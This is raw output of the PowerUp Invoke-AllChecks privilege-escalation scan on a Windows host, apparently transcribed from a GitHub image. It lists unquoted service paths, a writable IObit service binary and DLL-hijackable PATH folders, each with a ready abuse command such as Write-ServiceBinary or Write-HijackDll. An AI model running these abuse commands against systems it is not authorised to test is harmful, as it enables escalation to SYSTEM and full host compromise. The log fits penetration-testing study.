 ```
[*] Running Invoke-AllChecks


[*] Checking if user is in a local group with administrative privileges...


[*] Checking for unquoted service paths...


ServiceName   : AdvancedSystemCareService9
Path          : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
StartName     : LocalSystem
AbuseFunction : Write-ServiceBinary -ServiceName 'AdvancedSystemCareService9' -Path <HijackPath>

ServiceName   : AWSLiteAgent
Path          : C:\Program Files\Amazon\XenTools\LiteAgent.exe
StartName     : LocalSystem
AbuseFunction : Write-ServiceBinary -ServiceName 'AWSLiteAgent' -Path <HijackPath>

ServiceName   : IObitUnSvr
Path          : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
StartName     : LocalSystem
AbuseFunction : Write-ServiceBinary -ServiceName 'IObitUnSvr' -Path <HijackPath>

ServiceName   : LiveUpdateSvc
Path          : C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe
StartName     : LocalSystem
AbuseFunction : Write-ServiceBinary -ServiceName 'LiveUpdateSvc' -Path <HijackPath>





[*] Checking service executable and argument permissions...


ServiceName    : IObitUnSvr
Path           : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
ModifiableFile : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
StartName      : LocalSystem
AbuseFunction  : Install-ServiceBinary -ServiceName 'IObitUnSvr'





[*] Checking service permissions...


[*] Checking %PATH% for potentially hijackable .dll locations...


HijackablePath : C:\Windows\system32\
AbuseFunction  : Write-HijackDll -OutputFile 'C:\Windows\system32\\wlbsctrl.dll' -Command '...'

HijackablePath : C:\Windows\
AbuseFunction  : Write-HijackDll -OutputFile 'C:\Windows\\wlbsctrl.dll' -Command '...'

HijackablePath : C:\Windows\System32\WindowsPowerShell\v1.0\
AbuseFunction  : Write-HijackDll -OutputFile 'C:\Windows\System32\WindowsPowerShell\v1.0\\wlbsctrl.dll' -Command '...'
```
